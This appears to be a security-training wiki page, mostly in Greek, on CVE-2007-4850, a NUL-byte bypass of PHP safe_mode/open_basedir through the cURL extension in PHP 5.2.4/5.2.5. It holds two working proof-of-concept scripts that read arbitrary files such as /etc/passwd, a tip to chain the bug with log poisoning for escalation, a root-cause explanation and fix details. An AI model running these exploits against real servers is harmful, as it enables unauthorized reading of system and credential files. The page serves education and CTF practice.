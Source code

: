 # PHP 5.2.4 and 5.2.5 PHP cURL

{{#include ../../../../banners/hacktricks-training.md}}

Αυτή η σελίδα τεκμηριώνει ένα παλαιό αλλά ακόμα useful-in-CTFs/local-legacy-installs trick για να παρακάμψετε τους ελέγχους PHP safe_mode/open_basedir χρησιμοποιώντας την επέκταση cURL σε συγκεκριμένα builds PHP 5.2.x.

- Επηρεαζόμενα: PHP 5.2.4 και 5.2.5 με ενεργοποιημένο το ext/curl.
- Επίπτωση: Ανάγνωση αυθαίρετων τοπικών αρχείων παρά τους περιορισμούς safe_mode ή open_basedir (χωρίς άμεση εκτέλεση κώδικα).
- ID: CVE-2007-4850.

Από http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

## One-liner PoC

If safe_mode or open_basedir are active and cURL is enabled, the following will return the contents of the current script:
```php
var_dump(curl_exec(curl_init("file://safe_mode_bypass\x00".__FILE__)));
```
## Πιο σαφές PoC (αυθαίρετη ανάγνωση αρχείου)
```php
<?php
// Preconditions (legacy): PHP 5.2.4/5.2.5, safe_mode or open_basedir enabled, ext/curl loaded
$target = '/etc/passwd'; // change to the file you want to read
$ch = curl_init();
// The trick is the NUL byte (\x00). Prefix can be any string; checks are confused and the file after the NUL is read.
curl_setopt($ch, CURLOPT_URL, 'file://prefix'.chr(0).$target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$resp = curl_exec($ch);
$err  = curl_error($ch);
curl_close($ch);
if ($resp !== false) {
echo $resp; // should contain the target file
} else {
echo "cURL error: $err\n";
}
?>
```
Σημειώσεις:
- Χρησιμοποιήστε διπλά εισαγωγικά ή chr(0) για να εισάγετε έναν πραγματικό NUL byte. Το percent-encoding (%00) δεν θα λειτουργήσει αξιόπιστα.
- Αυτό είναι ένα file read primitive. Συνδυάστε το με άλλα primitives (log poisoning, session file inclusion, κ.λπ.) για περαιτέρω κλιμάκωση όταν είναι δυνατό.

## Γιατί αυτό λειτουργεί (σύντομο)

Η ευπάθεια έγκειται στον τρόπο με τον οποίο το PHP 5.2.4/5.2.5 εκτελούσε τους ελέγχους safe_mode/open_basedir για file:// URLs στο ext/curl. Ο έλεγχος ανέλυε το URL και επικύρωνε ένα στοιχείο διαδρομής, αλλά λόγω του χειρισμού των NUL-byte επικύρωνε μια διαφορετική συμβολοσειρά από αυτήν που χρησιμοποιήθηκε πραγματικά από το libcurl. Στην πράξη, ο validator μπορούσε να εγκρίνει τη διαδρομή μετά το NUL ενώ το libcurl χρησιμοποιούσε το τμήμα πριν το NUL ως το URL container, επιτρέποντας μια παράκαμψη που οδηγεί στην ανάγνωση του αρχείου τοποθετημένου μετά το NUL byte. Δείτε την αρχική ανάλυση και το επηρεαζόμενο macro στο curl/interface.c για λεπτομέρειες. [CVE-2007-4850].

## Περιορισμοί και επιδιορθώσεις

- Διορθώθηκε σε μεταγενέστερες εκδόσεις 5.2.x (π.χ. builds διανομών με patch στην 5.2.6) διορθώνοντας την ανάλυση/επικύρωση στο ext/curl.
- Επηρεάζει μόνο πολύ παλιές αναπτύξεις PHP· το safe_mode αφαιρέθηκε στο PHP 5.4 και οι σύγχρονες εκδόσεις δεν εμφανίζουν αυτή τη συμπεριφορά.

## Δείτε επίσης

Other disable_functions/open_basedir bypasses and modern techniques are collected here:

{{#ref}}
README.md
{{#endref}}



## Αναφορές

- Καταχώρηση CVE στο Ubuntu με δείκτες patch και επηρεαζόμενες εκδόσεις: https://ubuntu.com/security/CVE-2007-4850
- Τεχνική ανάλυση με πλαίσιο κώδικα (cxsecurity): http://cxsecurity.com/issue/WLB-2008010060
{{#include ../../../../banners/hacktricks-training.md}}
